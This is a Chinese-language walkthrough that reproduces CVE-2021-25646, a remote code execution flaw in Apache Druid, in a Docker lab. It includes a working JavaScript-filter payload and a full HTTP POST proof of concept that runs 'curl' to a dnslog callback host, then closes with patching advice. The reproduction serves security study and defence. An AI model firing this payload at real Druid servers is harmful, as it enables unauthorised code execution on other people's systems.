



# CVE-2021-25646 - Apache Druid RCE 复现

# [](#apache-druid-rce-%E5%A4%8D%E7%8E%B0)Apache Druid RCE 复现

## [](#1-%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)1 漏洞介绍

### [](#11-druid)1.1 Druid

Druid 是一个 JDBC 组件，支持所有 JDBC 兼容的数据库，包括 Oracle、MySql、Derby、Postgresql、SQL Server、H2 等。

### [](#12-%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0)1.2 漏洞描述

**编号：CVE-2021-25646**

Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户可以构造传入的 json 串来控制一些敏感的参数发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码。

### [](#13-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)1.3 影响版本

Apache Druid < 0.20.1

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

### [](#21-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)2.1 环境搭建

从 docker 仓库中拉取一个版本为 0.16.0 的镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>docker pull fokkodriesprong/docker-druid<br>docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid<br>``` |


### [](#22-%E5%A4%8D%E7%8E%B0)2.2 复现

docker 容器启动后，访问 8888端口：



点击 `Load data -> Local Disk`：



填入

**Base directory:** `quickstart/tutorial/`

**File filter:** `wikiticker-2015-09-12-sampled.json.gz`

一直点击 next 到 filter 项



抓包修改 filter 为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```json<br>{<br>    "type":"javascript",<br>    "function":"function(value){return java.lang.Runtime.getRuntime().exec('curl dnslog')}",<br>    "dimension":"added",<br>    "":{<br>    "enabled":"true"<br>    }<br>}<br>``` |


也可以直接使用 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```http<br>POST /druid/indexer/v1/sampler HTTP/1.1<br>Host: xxx.xxx.xxx.xxx:8888<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0<br>Accept: application/json, text/plain, */*<br>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br>Content-Type: application/json<br>Content-Length: 995<br>Connection: close<br><br><br>{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('curl xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}<br>``` |

### [](#23-%E4%BF%AE%E5%A4%8D)2.3 修复

升级 Apache Druid 到最新的版本

对 Apache Druid 进行权限控制，只允许受信任的主机访问集群服务器
